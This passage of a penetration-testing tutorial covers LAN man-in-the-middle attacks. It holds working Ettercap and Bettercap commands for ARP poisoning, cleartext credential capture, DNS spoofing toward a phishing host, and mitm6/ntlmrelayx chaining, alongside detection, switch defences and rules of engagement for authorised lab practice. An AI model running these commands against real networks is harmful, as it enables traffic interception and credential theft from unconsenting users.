victim's MAC on the gateway host if you can access it. **You are now the
man-in-the-middle**, and because forwarding is on, the victim still has full
connectivity and notices nothing.

### Step 4 — Trigger and capture a cleartext login

On the victim, generate the kind of traffic a real user would. The cleanest lab
demo is an HTTP (not HTTPS) login to your DVWA/test server. From the victim's
browser, log in to `http://192.168.56.1/login`, or simulate it with `curl`:

```bash
# On the VICTIM: a cleartext HTTP form POST with credentials
curl -s -d "username=alice&password=S3cr3tP@ss" http://192.168.56.1/login
```

On the **attacker's** Ettercap console, the HTTP dissector extracts the
credentials automatically and prints them:

```text
HTTP : 192.168.56.1:80 -> USER: alice  PASS: S3cr3tP@ss  INFO: http://192.168.56.1/login
CONTENT: username=alice&password=S3cr3tP@ss
```

That is the entire payoff of a LAN MITM against unencrypted traffic: credentials
appear in your console with no cracking required, because the protocol carried
them in the clear and you were on the path. FTP, Telnet, POP3, IMAP, and SMTP
logins are extracted the same way by their respective dissectors.

> **Why this only works on cleartext.** If the victim had logged in over
> **HTTPS**, you would see the TCP/TLS bytes flowing through you but they would
> be encrypted — you get ciphertext, not `alice / S3cr3tP@ss`. Getting inside
> TLS from a MITM position is the subject of Part 9, and the short version is:
> against a correctly configured modern site, you can't.

### Step 5 — Watch it in Wireshark

Leave Ettercap running and open Wireshark on the attacker's `eth0`. Because
traffic is now flowing through you, you will see the victim's conversations with
the outside world. Useful display filters (from the Wireshark chapters):

```text
arp                          # watch your own poisoning replies and any anomalies
http.request                 # every HTTP request the victim makes
ip.addr == 192.168.56.20     # everything to/from the victim
tcp.flags.reset == 1         # RSTs — a sign something is breaking
```

Seeing the victim's HTTP requests appear on *your* capture is the visual
confirmation that the MITM is live.

### Step 6 — Clean up

Stop Ettercap by pressing `q` in the text interface. On a clean exit it sends
corrective ARP replies re-announcing the true gateway MAC to the victim and the
true victim MAC to the gateway, healing both caches immediately:

```text
Closing text interface...

ARP poisoner deactivated.
RE-ARPing the victims...
Unified sniffing was stopped.
```

Verify on the victim that `ip neigh show` again shows the gateway's real MAC.
**Always exit cleanly** — abandoning the poison causes an outage that is both
disruptive and conspicuous.

### The same lab with Bettercap

For completeness, here is the identical attack driven from Bettercap's console,
which many testers now prefer:

```bash
sudo bettercap -iface eth0
```

```text
» net.probe on
» set arp.spoof.targets 192.168.56.20
» set arp.spoof.internal false
» set arp.spoof.fullduplex true
» arp.spoof on
» set net.sniff.verbose true
» net.sniff on
```

Command by command:

- `net.probe on` — actively probes the subnet to build a live host inventory
  (visible with `net.show`).
- `set arp.spoof.targets 192.168.56.20` — the victim(s) to poison; comma-separate
  for several. The gateway is spoofed automatically as the other side.
- `set arp.spoof.internal false` — only poison traffic leaving the LAN (victim ⇄
  gateway); set `true` to also intercept host-to-host LAN traffic.
- `set arp.spoof.fullduplex true` — poison **both** the victim and the gateway
  (full two-sided MITM) rather than only the victim.
- `arp.spoof on` — begin poisoning; Bettercap enables IP forwarding for you.
- `net.sniff on` — capture and dissect; cleartext credentials print to the event
  stream just like Ettercap.

Sample event-stream output when the victim submits the same HTTP login:

```text
[sys.log] [inf] arp.spoof enabling forwarding
[net.sniff.http.request] http://192.168.56.1/login POST
  username=alice&password=S3cr3tP@ss
```

Stop everything and restore the network with:

```text
» arp.spoof off
» net.sniff off
» q
```

`arp.spoof off` re-ARPs the victims exactly like Ettercap's clean exit.

---

## Part 8: DNS Spoofing on Top of the MITM

Once traffic flows through you, you are not limited to reading it — you can
**answer for services the victim tries to reach**. The most useful of these is
**DNS spoofing**: when the victim asks "what is the IP of `intranet.corp.local`?"
you race to reply with an address you control (say, your phishing server) before
the real DNS server answers. Because you are on-path, your forged reply arrives
first and the victim caches it.

### With Ettercap: the `dns_spoof` plugin

Ettercap ships a `dns_spoof` plugin driven by a hosts file. Edit
`/etc/ettercap/etter.dns`:

```text
# /etc/ettercap/etter.dns  — map names to the attacker's IP
intranet.corp.local   A   192.168.56.10
*.evil-example.com     A   192.168.56.10
www.example.com        A   192.168.56.10
```

Each line is `name  A  ip`: an A-record answer to hand back. Wildcards (`*`) match
subdomains. Then run Ettercap with the plugin loaded (`-P dns_spoof`):

```bash
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /192.168.56.20// /192.168.56.1//
```

When the victim resolves `www.example.com`, the console shows:

```text
dns_spoof: A [www.example.com] spoofed to [192.168.56.10]
```

and the victim's browser connects to *your* machine believing it reached
`example.com`.

### With Bettercap: the `dns.spoof` module

Bettercap's equivalent is cleaner:

```text
» set dns.spoof.domains intranet.corp.local, *.example.com
» set dns.spoof.address 192.168.56.10
» set dns.spoof.all true
» dns.spoof on
```

- `dns.spoof.domains` — comma-separated names/wildcards to hijack.
- `dns.spoof.address` — the IP to answer with (your server).
- `dns.spoof.all true` — also answer queries not strictly addressed through you.
- `dns.spoof on` — start; combine with the `arp.spoof` you already have running.



**Red team usage:** DNS spoofing on a MITM is the classic setup for a captive
phishing portal or a browser-exploitation redirect — point a plausible internal
hostname at a cloned login page and harvest credentials or drive a payload.
Combined with the arp.spoof already in place it needs no extra access. **The hard
limit is again TLS:** if the victim requests `https://` and your rogue server
cannot present a valid certificate for that name, the browser throws a
certificate error, and with HSTS in force it won't even let the user click
through.

---

## Part 9: HTTP, HTTPS, HSTS, and Why SSL Stripping Mostly Died

New testers often arrive expecting that a MITM lets them read everyone's HTTPS.
It does not, and understanding *why* is essential both to setting realistic
expectations on an engagement and to appreciating the defences that got us here.

### The TLS wall

When the victim connects to `https://bank.example`, they perform a TLS handshake
with the server and verify the server's **certificate** against a trusted
Certificate Authority. As a man-in-the-middle you can see and forward the
encrypted bytes, but you hold no private key for `bank.example` and no CA will
sign a certificate for a domain you do not control. If you try to terminate the
TLS connection yourself with a self-signed or mismatched certificate, the
victim's browser shows a full-page certificate warning. You are on the path, but
the content is opaque. This is TLS working exactly as designed.

### SSL stripping and how HSTS killed it

Around 2009, Moxie Marlinspike's **sslstrip** exploited a gap: users typed
`example.com` (no scheme), got an HTTP page, and clicked an HTTPS link only when
logging in. A MITM could sit on the initial HTTP connection and **rewrite every
`https://` link to `http://`**, keeping the *victim⇄attacker* leg in cleartext
while the attacker spoke HTTPS to the real server. The victim never saw a
certificate error because their side never used TLS. It was devastating.

The defence that closed it is **HSTS (HTTP Strict Transport Security)**. A site
sends a header:

```text
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
```

Once a browser has seen this (or the site is on the **HSTS preload list** baked
into the browser), it **refuses to make plaintext HTTP requests to that domain at
all** — it upgrades every request to HTTPS internally *before* anything hits the
wire. There is no initial HTTP request for sslstrip to hijack. Major sites
(Google, Facebook, banks) are preloaded, so the attacker never even gets the
plaintext first hop. Bettercap includes an evolved `hstshijack`/`hsts` caplet
that attempts homograph and partial-domain tricks, but against a preloaded domain
in an up-to-date browser it fails. **State this plainly on engagements: modern
HTTPS + HSTS defeats LAN SSL stripping.** SSL stripping still occasionally works
against legacy internal apps that are HTTP-only or misconfigured — which is
exactly the finding you report.

### Certificate pinning

Some clients (mobile apps, some desktop software) go further and **pin** the
exact certificate or CA they will accept, ignoring even the system trust store.
Against a pinned client, even installing your own CA on the device (the standard
way to intercept your *own* app traffic with Burp) fails. Pinning is why you
cannot MITM many mobile apps without patching the app itself.



### What a MITM *does* still get you on a modern network

Being realistic, on a modern network a LAN MITM still yields plenty:

- **Cleartext protocols** that never went TLS: internal HTTP apps, Telnet, FTP,
  SNMP, LLMNR/NetBIOS name traffic, some legacy database and IoT protocols.
- **Metadata** even from encrypted flows: which hosts and domains (via SNI and
  DNS) the victim talks to, timing, and volumes.
- **Downgrade and misconfiguration findings:** an internal app that offers HTTP,
  a service without HSTS, a client that accepts a bad certificate.
- **A platform for further attacks:** DNS spoofing to a phishing portal, NBT-NS/
  LLMNR poisoning to capture NetNTLM hashes (Responder territory, covered in the
  AD/Windows notebooks), and IPv6 takeover (next part).

---

## Part 10: Beyond ARP — Other MITM Vectors and the IPv6 Angle

ARP spoofing is the canonical LAN MITM, but it only works on IPv4 and only within
a broadcast domain. A well-rounded tester knows the alternatives, because a
network hardened against ARP poisoning may be wide open elsewhere.

### DHCP spoofing (rogue DHCP)

If you can answer DHCP requests faster than the real server, you hand the victim a
lease with **yourself as the default gateway and DNS server** — instant MITM
without touching ARP, and it survives dynamic ARP inspection because it is not an
ARP attack. Ettercap has a DHCP MITM method (`-M dhcp`); Bettercap has a
`dhcp6.spoof` module for IPv6. Rogue DHCP is noisy (there are suddenly two DHCP
servers) but effective on networks without DHCP snooping.

### ICMP redirect

An ICMP redirect message legitimately tells a host "there's a better router for
this destination." Forge one and you can nudge a victim to route through you.
Modern OSes largely ignore ICMP redirects by default, so this is mostly of
historical interest, but Ettercap supports it (`-M icmp`).

### IPv6: SLAAC/NDP spoofing and `mitm6`

IPv6 has no ARP; it uses **NDP (Neighbor Discovery Protocol)** with ICMPv6, and
address autoconfiguration via **SLAAC** and **Router Advertisements (RA)**. The
killer technique here is abusing the fact that **Windows prefers IPv6 over IPv4**
and, out of the box, will use a DHCPv6 server if one appears — even on a network
that only ever ran IPv4. The tool **`mitm6`** answers DHCPv6 solicitations,
assigns the victim an IPv6 address, and sets **itself as the victim's DNS
server**. From there it forwards DNS but answers internal names as it likes —
frequently chained with **ntlmrelayx** to relay authentication and take over
Active Directory. Bettercap also carries NDP spoofing modules.

> **Red team usage:** on Windows-heavy corporate networks, `mitm6` + `ntlmrelayx`
> is often *more* productive than IPv4 ARP spoofing precisely because IPv6 is
> unmonitored — defenders who deployed dynamic ARP inspection frequently left
> IPv6 completely open. **Blue team:** if you do not use IPv6, disable it or
> filter rogue RAs/DHCPv6 with RA Guard and DHCPv6 Guard; if you do use it,
> monitor it as carefully as IPv4.

### Switch port stealing and MAC flooding

Two switch-layer attacks worth knowing:

- **MAC flooding** (`macof`) overwhelms the switch's CAM table with thousands of
  fake MACs. A switch whose CAM table is full may "fail open" and behave like a
  hub, flooding all frames to all ports — reviving passive sniffing. Modern
  switches with **port security** resist this.
- **Port stealing** is an Ettercap MITM method (`-M port`) for switches where ARP
  poisoning is blocked; it races the switch's CAM learning by sending frames with
  the victim's source MAC to steal the switch port temporarily.



---

## Part 11: Detection & Defense Angle

Everything above is also a defender's playbook in reverse. A LAN MITM leaves
distinctive fingerprints, and switched networks have mature controls to prevent
it outright. On an engagement you will be expected to report not just that the
attack worked but exactly which of these controls were missing.

### How to detect ARP poisoning

The signature of ARP poisoning is **one MAC address suddenly claiming an IP that
belonged to another MAC**, and **duplicate/unsolicited ARP replies**.

- **`arpwatch`** — a daemon that builds a database of IP↔MAC pairings and emails
  an alert whenever a pairing changes ("flip flop") or a new station appears.
  Simple, effective, and the classic host-based detector:

  ```bash
  sudo apt install -y arpwatch
  sudo arpwatch -i eth0        # logs to syslog; alerts on changed IP/MAC bindings
  ```

- **Wireshark / tcpdump** — filter `arp.duplicate-address-detected` or watch for
  many gratuitous replies. In a capture, a poisoning attack shows the gateway IP
  answered by two different MACs seconds apart. Wireshark flags this natively as
  a "duplicate IP address configured" expert warning.

- **`ip neigh` / `arp -a` on the host** — if the gateway's MAC does not match the
  switch's known port MAC, you are poisoned. On the victim in the lab you watched
  exactly this change.

- **IDS signatures** — Suricata/Snort and many EDRs alert on ARP anomalies and on
  the ICMP redirect suppression and forwarding behaviour a MITM introduces.

| Symptom | What it indicates |
| --- | --- |
| Gateway IP maps to two different MACs | Active ARP poisoning |
| Burst of unsolicited/gratuitous ARP replies | Poisoning tool refreshing caches |
| Your MAC seen sourcing another host's IP traffic | You are the relay |
| Sudden TCP resets / latency after a new host joins | Half-poisoned or failing MITM |
| Two DHCP servers answering | Rogue DHCP |
| Unexpected DHCPv6/RA on an IPv4-only net | mitm6 / rogue RA |

### How to prevent it on the switch

Prevention lives in the switch configuration, and a properly locked-down access
layer defeats ARP spoofing entirely:

- **Dynamic ARP Inspection (DAI)** — the primary control. The switch validates
  every ARP packet against the **DHCP snooping binding table** (the record of
  which IP was leased to which MAC on which port) and drops ARP replies that do
  not match. Forged ARP simply never reaches the victim. DAI depends on DHCP
  snooping being enabled first.
- **DHCP Snooping** — designates trusted ports (where the real DHCP server lives)
  and drops DHCP server replies from untrusted ports, killing rogue DHCP and
  feeding the binding table DAI relies on.
- **Port Security** — limits how many MACs may appear on a port and can lock a
  port to a specific MAC, defeating MAC flooding and unexpected devices.
- **Static ARP entries** — for a handful of critical hosts (a jump box's entry
  for the gateway), a static, unspoofable ARP entry closes the door for those
  pairs. Not scalable to a whole network, but valuable for crown-jewel systems.
- **RA Guard / DHCPv6 Guard** — the IPv6 equivalents that block rogue Router
  Advertisements and DHCPv6, defeating `mitm6`.
- **802.1X / NAC** — authenticating devices onto the network before they get an
  IP raises the bar for simply plugging in a rogue laptop at all.

### The ultimate mitigation: encrypt end to end

Every technique in this chapter that extracts *content* depends on that content
being unencrypted. **Ubiquitous TLS with HSTS, SSH instead of Telnet, FTPS/SFTP
instead of FTP, and signed/encrypted internal services turn a successful MITM
into a view of ciphertext.** The attacker keeps the position but loses the prize.
This is why the strongest recommendation in any MITM finding is not only "enable
DAI" but "eliminate cleartext protocols internally" — defence in depth, so that
even a MITM who beats the switch controls still sees nothing usable.



---

## Part 12: Ethics, Rules of Engagement, and Staying Lawful

MITM is among the most legally sensitive techniques a tester uses, because it
touches *other people's* traffic — potentially personal data, credentials, and
communications belonging to employees who never consented individually. Treat it
with corresponding care.

- **Written authorisation, in scope.** ARP poisoning and DNS spoofing must be
  explicitly in your rules of engagement. "Internal network test" is not
  automatically consent to intercept staff traffic. Confirm it in writing.
- **Target narrowly.** Poison the specific hosts your test requires, never the
  whole subnet, and never during business-critical windows. Whole-subnet
  poisoning through a single NIC risks a real outage.
- **Minimise data handling.** You may capture credentials and PII. Store only
  what proves the finding, encrypt your captures, and destroy them per the
  engagement's data-handling terms. Do not read personal communications beyond
  what the test requires.
- **Have a rollback.** Always exit tools cleanly so caches are restored. Know how
  to re-ARP manually if a tool crashes mid-attack.
- **Never on networks you don't own or aren't contracted to test.** Coffee-shop
  and corporate-guest Wi-Fi MITM is a crime. The lab in this chapter is isolated
  precisely so you can practise lawfully.

The skill is powerful; the discipline around it is what separates a professional
from a criminal.

---

## Final Revision / Summary

- A **man-in-the-middle** secretly relays and can modify traffic between two
  parties who think they talk directly. On a LAN the two parties are usually a
  victim and its gateway.
- A **switch** only forwards frames to the port owning the destination MAC, so
  passive sniffing sees little. LAN MITM is about making traffic come to you.
- **ARP has no authentication.** Hosts cache unsolicited ARP replies and let the
  last speaker win. Sending forged replies to the victim (claiming the gateway's
  IP) and to the gateway (claiming the victim's IP) makes both send their traffic
  to you: **full-duplex ARP poisoning**.
- You must **enable IP forwarding** (`net.ipv4.ip_forward=1`) or you cause a DoS
  instead of a MITM. Tools do this for you but understand it. **Exit cleanly** to
  re-ARP and restore the victims.
- **Ettercap** is the classic all-in-one suite (`-T -q -M arp:remote /victim//
  /gateway//`) with automatic credential dissectors and a `dns_spoof` plugin.
- **Bettercap** is the modern modular successor: `net.probe`, `arp.spoof`,
  `net.sniff`, `dns.spoof`, driven from an interactive console and caplets.
- **DNS spoofing** on top of the MITM lets you answer name queries with your own
  IP — a springboard for phishing portals.
- **HTTPS + HSTS + certificate pinning** defeat content interception and SSL
  stripping against modern sites. A MITM on a modern network mainly yields cleartext internal
  protocols, metadata, downgrade/misconfig findings, and a platform for further
  attacks like `mitm6`.
- **IPv6 (mitm6 / rogue RA / DHCPv6)** is frequently the softer target on
  Windows networks and pairs with NTLM relaying.
- **Defence:** DHCP snooping + Dynamic ARP Inspection + port security + RA/DHCPv6
  guard on the switch, `arpwatch`/IDS for detection, and end-to-end encryption so
  even a successful MITM sees only ciphertext.

---

## Cheat Sheet / Quick Reference

**Enable/verify forwarding (manual MITM)**

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
cat /proc/sys/net/ipv4/ip_forward        # 1 = on
```

**Host discovery**

```bash
sudo nmap -sn -PR 192.168.56.0/24        # ARP-layer host sweep
sudo arp-scan -l                          # dedicated ARP scanner
```

**Ettercap (text mode ARP MITM)**

```bash
# victim ⇄ gateway MITM
sudo ettercap -T -q -i eth0 -M arp:remote /VICTIM_IP// /GATEWAY_IP//
# with DNS spoofing (edit /etc/ettercap/etter.dns first)
sudo ettercap -T -q -i eth0 -P dns_spoof -M arp:remote /VICTIM_IP// /GATEWAY_IP//
# quit cleanly: press q   (re-ARPs victims)
```

| Ettercap token | Meaning |
| --- | --- |
| `-T` / `-C` / `-G` | text / curses / GTK interface |
| `-q` | quiet (only extracted data) |
| `-i IFACE` | interface |
| `-M arp:remote` | ARP MITM incl. traffic to remote hosts |
| `-P dns_spoof` | load DNS-spoof plugin |
| `/IP//` | target = `MAC/IP/PORT`, empty = any |

**Bettercap (interactive ARP MITM)**

```text
sudo bettercap -iface eth0
» net.probe on
» set arp.spoof.targets VICTIM_IP
» set arp.spoof.fullduplex true
» set arp.spoof.internal false
» arp.spoof on
» net.sniff on
# DNS spoof:
» set dns.spoof.domains *.example.com
» set dns.spoof.address ATTACKER_IP
» dns.spoof on
# stop + restore:
» arp.spoof off ; net.sniff off ; q
```

| Bettercap command | Effect |
| --- | --- |
| `net.probe on` / `net.show` | discover / list hosts |
| `arp.spoof on/off` | start/stop ARP poisoning |
| `arp.spoof.fullduplex true` | poison both victim and gateway |
| `net.sniff on` | capture + dissect (creds to event stream) |
| `dns.spoof on` | forge DNS answers |
| `set/get <param>` | change/read a module parameter |

**Detection / defence quick list**

```text
Detect : arpwatch, Wireshark "duplicate IP" expert, ip neigh mismatch, IDS ARP sigs
Prevent: DHCP snooping -> Dynamic ARP Inspection, Port Security,
         static ARP for crown jewels, RA Guard + DHCPv6 Guard (IPv6), 802.1X/NAC
Contain: TLS+HSTS everywhere, SSH/SFTP/FTPS, kill cleartext internal protocols
```

**Victim-side checks**

```bash
ip neigh show        # Linux ARP cache; gateway MAC changed == poisoned
arp -a               # Windows/macOS equivalent
```

---

## Common Pitfalls

- **Forgetting IP forwarding** → you DoS the victim instead of spying. Verify
  `/proc/sys/net/ipv4/ip_forward` is `1`.
- **Poisoning the whole subnet** on a busy network → all traffic funnels through
  one NIC, causing latency/outage and loud detection. Target two hosts.
- **Killing the tool with `kill -9`** → caches stay poisoned, victims lose
  connectivity until timeout. Always exit cleanly (`q`) to re-ARP.
- **Expecting to read HTTPS** → you get ciphertext. HSTS/preload defeats SSL
  stripping. Set expectations accordingly.
- **Omitting `remote` in Ettercap's `arp:remote`** → you miss traffic between the
  victim and the wider internet, capturing only intra-LAN flows.
- **Only poisoning one side** → half-duplex; TCP stalls and it is obvious.
- **Ignoring IPv6** → a network with perfect DAI can still be fully owned via
  `mitm6`. Test both stacks.
- **Leaving `send_redirects` on** (manual setups) → the kernel tells the victim
  to bypass you, breaking the MITM intermittently.

---

## Practice Labs & Resources

Train this chapter's exact skills, all on systems you own or are authorised to
use:

- **TryHackMe — "Wireshark: The Basics" / "Network Services"** rooms for reading
  ARP/poisoning in captures, and the **"Attacktive Directory"** and **"Holo"**
  rooms where IPv6/relay chains follow naturally from a MITM foothold.
- **TryHackMe — "Layer 2" and MAC/ARP rooms** drill the switch-layer attacks and
  defences (CAM tables, port security, DAI) directly.
- **HackTheBox — Academy "Intro to Network Traffic Analysis" and "Using Web
  Proxies"** modules, plus starting-point boxes where you pivot onto an internal
  segment and must intercept traffic.
- **Build the lab in this chapter:** VirtualBox host-only network + Kali +
  Ubuntu/Windows victim + DVWA. Poison, capture a DVWA HTTP login, then spoof DNS
  to a cloned page. Then **turn on the defences** — enable static ARP on the
  victim, or emulate DAI with an L3 switch image in GNS3/EVE-NG — and confirm the
  attack now fails. Attacking *and then defending* the same lab is the fastest way
  to internalise both halves.
- **`mitm6` (github.com/dirkjanm/mitm6) + `ntlmrelayx` (Impacket)** in a Windows
  AD lab — the modern IPv6 MITM-to-domain-takeover chain; do this after the
  Active Directory notebook.
- **PacketLife / Malware-Traffic-Analysis.net** sample PCAPs containing ARP
  poisoning and rogue-DHCP episodes, to practise *detecting* the attack in
  capture data.
- **Cisco / switch vendor labs on DHCP Snooping + Dynamic ARP Inspection** —
  configure the controls that stop everything in this chapter, so your reports
  can recommend them precisely.

The next chapter continues the Network Attacks track by moving from intercepting
traffic to actively attacking the services and authentication exposed on the
segment you now control.
